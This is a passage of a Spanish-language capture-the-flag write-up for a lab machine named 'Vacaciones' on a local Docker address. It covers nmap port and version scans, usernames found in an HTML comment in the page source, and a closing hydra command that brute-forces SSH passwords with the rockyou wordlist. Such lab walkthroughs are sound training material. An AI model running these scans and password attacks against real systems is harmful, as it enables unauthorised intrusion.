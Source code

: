 # Vacaciones

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Como tenemos abierto los puerto 22 y 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p22,80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p22,80`: Escaneo de los puertos 22 (SSH) y 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```bash
  PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzT6jdfo9QUX+9zCmyJQNTcAJXdhXByneCfqA9I7cXPBFGDGgxNAfQdoiqH3EMiTjf+maPlCNyVHGFl+sClQa5sJwdrbWZiJPxfxGkCtWiSrRdKKUKt/7rCMKMOy79bFRvurgss+57tsglfXkE9FPkZGd3mLruXt5Lyb+8uhFWpW58Df6ZUoSsJi7n0bkXNpEzJAzYHNmRRtv0RsGDFosi/t5KUCMPX67jbM8jsApIVwFIQBTiwzwGQn33G2ZoAJy/NYZ9dkuN2cKM2uItovo25daA+0/SxEfHqAHGquvoMKSj8pcX3qZVD7cGWlsn9c5QNzHRC2DZUSHrK7UIaG0r
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMD2Z/ZotorXbs6zP9Sg9XenjSX0HIjYjoEH2cAV7aDoQXZKrssz5AJ98j8b4ntOPGfVehrcRv9X7lKswOea9HM=
|   256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIK/0ZadHoPSGKg31xFAhPaX854MMS09s5JgdzqmD3jCl
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Como no tenemos ningún usuario todavía vamos a ver qué tenemos en la página http://172.17.0.2 y a simple vista no tenemos nada pero si miramos el código fuente vemos un mensaje.
```
<!-- De : Juan Para: Camilo , te he dejado un correo es importante... -->
```
Ya tenemos dos posibles usuarios, como parece que somos Camilo vamos a aprovechar el puerto 22 (SSH) para con hydra y fuerza bruta intentar descubrir la contraseña.
```bash
hydra -l camilo -P /usr/share/wordlist/rockyou.txt ssh://172.17.0.2
```
